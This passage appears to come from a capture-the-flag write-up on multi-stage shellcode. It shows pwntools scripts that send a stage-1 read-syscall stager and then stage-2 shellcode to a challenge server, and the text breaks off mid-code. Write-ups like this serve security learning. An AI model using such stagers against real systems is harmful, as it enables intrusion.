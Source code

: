 ```asm
mov rax, 60
mov rsi, 42
syscall

flag:
  .string "flag"
```

The second shellcode is the same shellcode used in challenge 1.

```python
shellcode1 = asm(f""" # stage 1 shellcode goes here """)
shellcode2 = asm(f""" # stage 2 shellcode goes here """)

p = remote("0.cloud.chals.io", 34832)
print_clean(p.recvuntil(b"Reading 0x18 bytes from stdin.\n"))
p.sendline(shellcode1)
pause(1)
p.send(shellcode2)

print_clean(p.readrepeat())
```

In order to successfully execute a multi stage shellcode we also need to modify the boilerplate.py file since the two scripts must be in different payloads.
As shown above, we create another variable in which we type our stage 1 shellcode and we send it through before the actual payload containing the stage 2 shellcode; between the two payloads we want to wait 1 second for the stage 1 shellcode to execute so we add "pause(1)".

```python
from pwn import *

context.arch = "amd64"
#context.log_level = debug

def print_clean(data):
    data = data.split(b"\n")
    for i in data:
        print(i.decode("latin-1"))

# shellcode goes here
setup = asm(f"""

.intel_syntax noprefix
.global _start

_start:
main:
push 0
push 0
pop rdi
lea rsi, [rip+10]
mov rdx, 250
pop rax
syscall

""")

shellcode = asm(f"""

.global _start
.intel_syntax noprefix

_start:

```